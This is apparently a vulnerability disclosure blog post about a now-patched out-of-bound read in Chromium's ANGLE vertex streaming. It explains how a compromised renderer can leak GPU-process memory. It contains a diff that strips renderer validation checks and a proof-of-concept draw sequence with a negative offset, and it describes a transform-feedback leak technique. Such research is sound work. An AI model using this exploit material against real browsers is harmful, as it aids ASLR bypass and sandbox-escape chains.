








# **Out-of-bound read in ANGLE CopyNativeVertexData from Compromised Renderer**


<p align="center">
  
  <em>Figure 1: Crashes on MacOS</em>
</p>


## Introduction

Back in the beginning of the year 2024, we started our project on ANGLE, it is a chromium graphic library, handling rendering stuff on chrome process. Fortunately, our team found some of the vulnerabilities in different areas (our mentor declared more information on [his tweet](https://x.com/\_\_suto/status/1755048469872713873) previously. In this blog post, we will explain our arbitrary leak in detail and how we can turn it from a standalone crashing of the ANGLE process to an important primitive on chromium.    

### ANGLE Overview

Chrome’s graphics system includes everything needed to process, display, optimize visuals, etc. This requires a range of technologies like WebGL, WebGPU, Skia, Canvas2D, and Widevine DRM. Because these processes need deep access to the computer’s hardware to work smoothly, there’s a higher chance of security issues in the graphics code, which could be used to bypass Chrome’s sandboxing system. 

WebGL, in particular, is an important library within Chromium. It provides multiple APIs for creating 3D graphic effectively, and eliminates the need for external graphic software.  

<p align="center">
  
  <em>Figure 2: A displaying example of rendering simple color by WebGL</em>
</p>


### The Architecture and Common Attack Surfaces

When a WebGL API is called from JavaScript, it passes through Blink bindings before being sent down to the GPU process via the command buffer. The module responsible for handling these API calls in the GPU process is ANGLE. ANGLE’s front-end initiates necessary validations and interacts with renderer APIs, ultimately channeling commands to OS-specific back-end APIs like Vulkan for Linux, D3D9 for Windows, and Metal for MacOS. This process overview illustrates the workflow, connections, and components of WebGL within the renderer and GPU processes.


<p align="center">
  
  <em>Figure 3: WebGL architecture</em>
</p>

Their design comes up with 2 potential attack surfaces that can reach from renderer:

1. API implementation: the WebGL/GLES call paths that span both the renderer and GPU processes.   
2. OpenGL ES Shading Language (GLSL): the language defines a shader program and runs directly on the GPU.  
    

Although shader compilation is accessible via public APIs (e.g., `glShaderSource`, `glCompileShader`), driving the compiler is obviously harder than WebGL APIs call surface. In our case, the vulnerability lies in the first attack surface, affecting the both Vulkan and Metal backends, when attacker-controlled API arguments are mishandled.

## The Vulnerability

### The Rise from Beginning  

Starting from 2020, several ANGLE vulnerabilities have been reported across both common attack surfaces. In particular, 2 issues [40066076](https://issues.chromium.org/issues/40066076) and [40058461](https://issues.chromium.org/issues/40058461) of updateStreamedAttribs function attracted our attention.

Most of them are out-of-bound read related copy functions. A prior `vertexAttribPointer` function sets up an excessively large offset, which is later added to the mapped base pointer during vertex streaming, yielding an OOB. For example: 

```js
var rloc = gl.getAttribLocation(program, "texCoord0");  
gl.vertexAttribPointer(rloc, 1<<0, gl.UNSIGNED_BYTE, false, 9, 0x41424344);  
gl.drawArrays(gl.TRIANGLES, 0, 6);
```

After that, Google team tried to add several checks at both renderer and GPU processes and revised core streaming data functionality. However, under a compromised renderer model, `vertexAttribPointer` can still bypass many validations, including those in libANGLE. Given this, we now explain why these safeguards no longer apply in practice. 

**Negative offset checks on renderer** 

At the WebGL context layer (`webgl_rendering_context_base.cc`), arguments are validated to be non-negative 32-bit integers.

```c++
void WebGLRenderingContextBase::vertexAttribPointer(GLuint index,  
                                                    GLint size,  
                                                    GLenum type,  
                                                    GLboolean normalized,  
                                                    GLsizei stride,  
                                                    int64_t offset) {  
//...  
  if (!ValidateValueFitNonNegInt32("vertexAttribPointer", "offset", offset))  
    return;
```

Next, the GLES2 client path performs its own validation, implemented in `gles2_implementation.cc`

```c++
void GLES2Implementation::VertexAttribPointer(GLuint index,  
                                              GLint size,  
                                              GLenum type,  
                                              GLboolean normalized,  
                                              GLsizei stride,  
                                              const void* ptr) {  
//...  
  if (!support_client_side_arrays_ || bound_array_buffer_ != 0) {  
    // Only report NON client side buffers to the service.  
    if (!ValidateOffset("glVertexAttribPointer",  
                        reinterpret_cast<GLintptr>(ptr))) {  
      return;  
    }  
    helper->VertexAttribPointer(index, size, type, normalized, stride,  
                                 ToGLuint(ptr));  
  }  
  CheckGLError();  
}
```

With a compromised renderer, we can control every API calling arguments from the renderer to GPU process. Consequently, all renderer-side validations (including WebGL/GLES client gates) no longer provide protection. 

**Extensions checking on GPU process**

To further escalate within the render context, we can modify some of the configuration propagated to GPU process, such as `context_type` on attribute list. This causes ANGLE to resolve a different `extensions` profile, most importantly, it turns off `extensions.webglCompatibilityANGLE`. As a consequence, when these extensions are disabled, particularly `webglCompatibilityANGLE`, multiple validation paths in libANGLE no longer execute [1].

```c++
const char *ValidateDrawStates(const Context *context, GLenum *outErrorCode)  
{  
//...  
 // Do some additional WebGL-specific validation  
        if (extensions.webglCompatibilityANGLE)  
        {  
            //...  
            const VertexArray *vao = context->getState().getVertexArray();  
            if (vao->hasTransformFeedbackBindingConflict(context)) // [1]  
            {  
                return kVertexBufferBoundForTransformFeedback;  
            }
```

So for reproducibility, we provide a minimal patch that applies this configuration deterministically. 

```diff
diff --git a/gpu/command_buffer/client/gles2_implementation.cc b/gpu/command_buffer/client/gles2_implementation.cc
index e02399bcbdc6b..8557b6f66dde4 100644
--- a/gpu/command_buffer/client/gles2_implementation.cc
+++ b/gpu/command_buffer/client/gles2_implementation.cc
@@ -2344,10 +2344,10 @@ void GLES2Implementation::VertexAttribPointer(GLuint index,
   }
   if (!support_client_side_arrays_ || bound_array_buffer_ != 0) {
     // Only report NON client side buffers to the service.
-    if (!ValidateOffset("glVertexAttribPointer",
-                        reinterpret_cast<GLintptr>(ptr))) {
-      return;
-    }
+    // if (!ValidateOffset("glVertexAttribPointer",
+    //                     reinterpret_cast<GLintptr>(ptr))) {
+    //   return;
+    // }
     helper_->VertexAttribPointer(index, size, type, normalized, stride,
                                  ToGLuint(ptr));
   }
diff --git a/gpu/command_buffer/common/context_creation_attribs.cc b/gpu/command_buffer/common/context_creation_attribs.cc
index 61bf78719fa11..6b97f9ef84ee9 100644
--- a/gpu/command_buffer/common/context_creation_attribs.cc
+++ b/gpu/command_buffer/common/context_creation_attribs.cc
@@ -27,18 +27,18 @@ bool IsGLContextType(ContextType context_type) {
 
 bool IsWebGLContextType(ContextType context_type) {
   // Switch statement to cause a compile-time error if we miss a case.
-  switch (context_type) {
-    case CONTEXT_TYPE_WEBGL1:
-    case CONTEXT_TYPE_WEBGL2:
-      return true;
-    case CONTEXT_TYPE_OPENGLES2:
-    case CONTEXT_TYPE_OPENGLES3:
-    case CONTEXT_TYPE_OPENGLES31_FOR_TESTING:
-    case CONTEXT_TYPE_WEBGPU:
-      return false;
-  }
-
-  NOTREACHED();
+  // switch (context_type) {
+  //   case CONTEXT_TYPE_WEBGL1:
+  //   case CONTEXT_TYPE_WEBGL2:
+  //     return true;
+  //   case CONTEXT_TYPE_OPENGLES2:
+  //   case CONTEXT_TYPE_OPENGLES3:
+  //   case CONTEXT_TYPE_OPENGLES31_FOR_TESTING:
+  //   case CONTEXT_TYPE_WEBGPU:
+  //     return false;
+  // }
+
+  // NOTREACHED();
   return false;
 }
 
diff --git a/third_party/blink/renderer/modules/webgl/webgl_rendering_context_base.cc b/third_party/blink/renderer/modules/webgl/webgl_rendering_context_base.cc
index 0710737feaa2b..42c106a3fb4a3 100644
--- a/third_party/blink/renderer/modules/webgl/webgl_rendering_context_base.cc
+++ b/third_party/blink/renderer/modules/webgl/webgl_rendering_context_base.cc
@@ -7287,8 +7287,8 @@ void WebGLRenderingContextBase::vertexAttribPointer(GLuint index,
                       "index out of range");
     return;
   }
-  if (!ValidateValueFitNonNegInt32("vertexAttribPointer", "offset", offset))
-    return;
+  // if (!ValidateValueFitNonNegInt32("vertexAttribPointer", "offset", offset))
+  //   return;
   if (!bound_array_buffer_ && offset != 0) {
     SynthesizeGLError(GL_INVALID_OPERATION, "vertexAttribPointer",
                       "no ARRAY_BUFFER is bound and offset is non-zero");

```

To make this concrete, the figure traces how a crafted vertexAttribPointer bypasses each check and where those checks are turned off.

<p align="center">
  
  <em>Figure 4: Eliminated checks on both processes</em>
</p>


After eliminating several checks above, our chance to find a vulnerability gets higher. We now present a typical out-of-bound bug that occurs in the same area with the previous issues. 

### Offset Integer Under-overflow 

Focusing again on `vertexAttribPointer`, with a compromised renderer we can supply an arbitrary large, or even negative offset. That value is recorded in the vertex binding (`binding.getOffset()`). During `updateStreamedAttribs`, ANGLE computes `src = bufferVk + binding.getOffset()` [2], effectively aligning the source pointer by *offset* bytes from the start of the mapped buffer. The resulting base pointer and the stride argument then are forwarded to `StreamVertexDataWithDivisor` [4].

```c++
angle::Result VertexArrayVk::updateStreamedAttribs(const gl::Context *context,  
                                                   GLint firstVertex,  
                                                   GLsizei vertexOrIndexCount,  
                                                   GLsizei instanceCount,  
                                                   gl::DrawElementsType indexTypeOrInvalid,  
                                                   const void *indices)  
{  
    ContextVk *contextVk = vk::GetImpl(context);  
    RendererVk *renderer = contextVk->getRenderer();

    // ...  
                if (bufferGL != nullptr)  
                {  
                    // Only do the data copy if src buffer is valid.  
                    if (bufferGL->getSize() > 0)  
                    {  
                        /  
                        // Map buffer to expand attribs for divisor emulation  
                        BufferVk *bufferVk = vk::GetImpl(binding.getBuffer().get());  
                        void *buffSrc      = nullptr;  
                        ANGLE_TRY(bufferVk->mapImpl(contextVk, GL_MAP_READ_BIT, &buffSrc));  
                        src = reinterpret_cast<const uint8_t *>(buffSrc) + binding.getOffset(); //  [2]  
   
                        uint32_t srcAttributeSize =  
                            static_cast<uint32_t>(ComputeVertexAttributeTypeSize(attrib));

                        size_t numVertices = GetVertexCount(bufferVk, binding, srcAttributeSize);// [3]

                        ANGLE_TRY(StreamVertexDataWithDivisor(  
                            contextVk, vertexDataBuffer, src, bytesToAllocate, binding.getStride(), //  [4]  
                            stride, vertexFormat.getVertexLoadFunction(compressed), divisor,  
                            numVertices));
```

Both of those values, including *offset* and *stride*, can be assigned by `vertexAttribPointer` as example:

```js
   gl.vertexAttribPointer(index, size, type, normalized, stride, offset);
```

In `GetVertexCount` [3], we can force `numVertices` to become negative by satisfying some conditions. The guard at [5] is ineffective because a negative *bytes* value participates in signed comparisons, even though *srcFormatSize* was an unsigned 32-bit integer. It leads to bypassing the check.


```c++
size_t GetVertexCount(BufferMtl *srcBuffer,  
                     const gl::VertexBinding &binding,  
                     uint32_t srcFormatSize)  
{  
   // Bytes usable for vertex data.  
   GLint64 bytes = srcBuffer->size() - binding.getOffset();  
   if (bytes < srcFormatSize) //[5]  
       return 0;

   // Count the last vertex.  It may occupy less than a full stride.  
   size_t numVertices = 1;  
   bytes -= srcFormatSize;

   // Count how many strides fit remaining space.  
   if (bytes > 0)  
       numVertices += static_cast<size_t>(bytes) / binding.getStride();

   return numVertices;  
}
```


In `StreamVertexDataWithDivisor`, the previous issues added on a min(...)  when computing clamped size [6]. But it captures upper bound only, and doesn’t address underflow cases or ensure the base pointer remains within the mapped buffer.

```c++
angle::Result StreamVertexDataWithDivisor(ContextVk *contextVk,  
                                          vk::BufferHelper *dstBufferHelper,  
                                          const uint8_t *srcData,  
                                          size_t bytesToAllocate,  
                                          size_t srcStride,  
                                          size_t dstStride,  
                                          VertexCopyFunction vertexLoadFunction,  
                                          uint32_t divisor,  
                                          size_t numSrcVertices)  
{  
//...

    // Each source vertex is used `divisor` times before advancing. Clamp to avoid OOB reads.  
    size_t clampedSize = std::min(numSrcVertices * dstStride * divisor, bytesToAllocate); // [6]

    ASSERT(clampedSize % dstStride == 0);  
    ASSERT(divisor > 0);

    uint32_t srcVertexUseCount = 0;  
    for (size_t dataCopied = 0; dataCopied < clampedSize; dataCopied += dstStride)  
    {  
        vertexLoadFunction(srcData, srcStride, 1, dst);// vertex load function == CopyNativeVertexData  
    // ...
```

### POC

Finally, we can trigger an out-of-bound read by invoking the copy routine with an overflowed size, and our POC looks like this:

```c++
    // Vertex Shader
    constexpr char kVS[] = 
        R"(#version 300 es
        in vec4 vPosition;
        in vec2 texCoord0;
        out vec2 texCoord;
        out vec4 feedbackPosition;
        void main() {
            gl_Position = vPosition;
            texCoord = texCoord0;
            feedbackPosition = vPosition;
        })";

    // Fragment Shader
    constexpr char kFS[] = 
        R"(#version 300 es
        precision mediump float;
        void main() {
        })";

    ANGLE_GL_PROGRAM(program, kVS, kFS);
    glUseProgram(program);

    // Specify transform feedback varyings
    const char *varyings[] = {"feedbackPosition"};
    glTransformFeedbackVaryings(program, 1, varyings, GL_SEPARATE_ATTRIBS);

    // Set up vertex attributes
    GLint rloc = glGetAttribLocation(program, "vPosition");
    glVertexAttribPointer(rloc, 2, GL_BYTE, GL_FALSE, 2, reinterpret_cast<void*>(-0x41414141));
    glEnableVertexAttribArray(rloc);
    glVertexAttribDivisor(rloc, 2);

    glDrawArraysInstanced(GL_TRIANGLES, 0, 3, 8);

```

We illustrate the api working flow on this image:

<p align="center">
  
  <em>Figure 5: CopyNativeVertexData API’s stacktrace</em>
</p>


## Turning into Arbitrary Read Primitive

At this point, our question is how we can make this out-of-bound more powerful, turning it into some essential exploit primitives as an example. To be honest, GPU process in general, and ANGLE in particular, is quite new for us. It is different from every target we learnt about before. So new challenges, new opportunities. Let's see how we can get library addresses from this vulnerability. 

### How does TransformFeedback work?

As shown, a negative offset lets us drive src backwards from the buffer base, so it can copy multiple data bytes from the lower address, including sensitive data such as library pointers. This raises two questions: how do we read those bytes from JavaScript, and where exactly does the destination pointer land?  

Since the graphic target is new territory, we begin with a short overview of ANGLE’s rendering pipeline. In OpenGL, the rendering pipeline is a linear sequence of processing stages. It takes graphics data as input and passes it from one stage to the another, with each stage performing a specialized operation, to ultimately produce an image on the screen.

<p align="center">
  
  <em>Figure 6: Rendering pipeline (image source: [here](https://www3.ntu.edu.sg/home/ehchua/programming/opengl/CG_BasicsTheory.html))</em>
</p>


The Khronos documentation highlights a specific feature within the rendering pipeline known as **transform feedback**:

>void glBeginTransformFeedback(GLenum primitiveMode​); active transform feedback (TFB) mode. While TFB mode is active, if you execute a drawing command, all outputs that are set to be captured by the final vertex processing state will be recorded to the bound buffers. These will keep track of the last recorded position, so that multiple drawing commands will add to the recorded data.

We realized that data processing in ANGLE is a continuous flow. The output of one stage directly feeds into the next. This means that when we execute the draw command, the result from one stage is saved to a buffer and used as the starting point for the next one. The following diagram shows the capture data pipeline in simple term: 

<p align="center">
  
  <em>Figure 7: TransformFeedback in the rendering pipeline</em>
</p>


Mapping with source code, `handleDirtyGraphicsVertexBuffers` function will be called after every draw command finishes. `RenderPassCommand` will read the output from the previous stage and store them into the vertex array buffer [7].

```c++
angle::Result ContextVk::handleDirtyGraphicsVertexBuffers(DirtyBits::Iterator *dirtyBitsIterator,  
                                                          DirtyBits dirtyBitMask)  
{  
    // ...

    const gl::AttribArray<vk::BufferHelper *> &arrayBufferResources =  
        vertexArrayVk->getCurrentArrayBuffers();

    // Mark all active vertex buffers as accessed.  
    const gl::AttributesMask attribsMask = executable->getActiveAttribLocationsMask();  
    for (size_t attribIndex : attribsMask)  
    {  
        vk::BufferHelper *arrayBuffer = arrayBufferResources[attribIndex];  
        if (arrayBuffer)  
        {  
            mRenderPassCommands->bufferRead(this, VK_ACCESS_VERTEX_ATTRIBUTE_READ_BIT,  
                                            vk::PipelineStage::VertexInput, arrayBuffer); // [7]  
        }  
    }

    return angle::Result::Continue;
```


Therefore, to read data produced by the rendering pipeline, we need to create an `ARRAY_VERTEX` buffer and bind them with an active transform feedback. Once the `draw command` has been executed, the data can be retrieved from the output vertex array buffer. 

<p align="center">
  
  <em>Figure 8: TransformFeedback calling flow on JS</em>
</p>


Finally, we are able to leak the heap address of the GPU process.

<p align="center">
  
  <em>Figure 9: Leaking random library address</em>
</p>


You can access full script at [here](files/)

### A variant on MacOS

The issue is not limited to Vulkan backend, it affects Metal backend on MacOS as well. The `src` pointer is shifted by an amount equal to the  `startElement * offset` [8].

```c++
angle::Result VertexArrayMtl::updateClientAttribs(const gl::Context \*context,  
                                                  GLint firstVertex,  
                                                  GLsizei vertexOrIndexCount,  
                                                  GLsizei instanceCount,  
                                                  gl::DrawElementsType indexTypeOrInvalid,  
                                                  const void \*indices)  
{  
//...  
            size_t bytesToAllocate = (startElement + elementCount) * convertedStride;  
            src += startElement * binding.getStride(); // [8]  
            size_t destOffset = startElement * convertedStride;

            mCurrentArrayBufferFormats[attribIndex] = &streamFormat;  
            mCurrentArrayBufferStrides[attribIndex] = convertedStride;

            if (bytesToAllocate <= mInlineDataMaxSize)  
            {  
              //...  
            }  
            else  
            {  
                // Stream the client data to a GPU buffer. Synchronization might happen if buffer is  
                // in use.  
                mDynamicVertexData.updateAlignment(contextMtl,  
                                                   streamFormat.actualAngleFormat().pixelBytes);  
                ANGLE_TRY(StreamVertexData(contextMtl, &mDynamicVertexData, src, bytesToAllocate,  
                                           destOffset, elementCount, binding.getStride(),  
                                           streamFormat.vertexLoadFunction,  
                                           &mConvertedArrayBufferHolders[attribIndex],  
                                           &mCurrentArrayBufferOffsets[attribIndex]));  
//...
```

**Patching**

We see that google team has patched this issue by changing the streaming logically to prevent data within buffer range.

- https://chromium-review.googlesource.com/c/angle/angle/+/5785860

## Conclusion

According to this blog, we showed that once the renderer is compromised, many attacking surfaces were opened. It can become a crucial part of an exploit chain. By demonstrating an out-of-bound read, we establish an information-disclosure primitive that can reveal GPU process memory, weaken ASLR, and enable precise chaining with other bugs.  

Currently, the new and replaceable project, WebGPU, is developing and has already seen some vulnerabilities on the “same attack surfaces” (more detail on [google report](https://chromium.googlesource.com/chromium/src/+/main/docs/security/research/graphics/webgpu_technical_report.md)). It shows the potential chance of bypassing chromium sandbox by GPU vulnerabilities. Mitigations are the same playbook: treat all renderer-supplied inputs as untrusted in the GPU process, make safety checks independent of feature/extensions flags, and systematically fuzz buffer/vertex streaming and shader compilation pipelines. 

## References

- https://registry.khronos.org/OpenGL-Refpages/es3.0/  
- [https://chromium.googlesource.com/chromium/src/+/main/docs/security/research/graphics/webgpu_technical_report.md](https://chromium.googlesource.com/chromium/src/+/main/docs/security/research/graphics/webgpu_technical_report.md)  
- [https://chromium-review.googlesource.com/c/angle/angle/+/3398816](https://chromium-review.googlesource.com/c/angle/angle/+/3398816)  

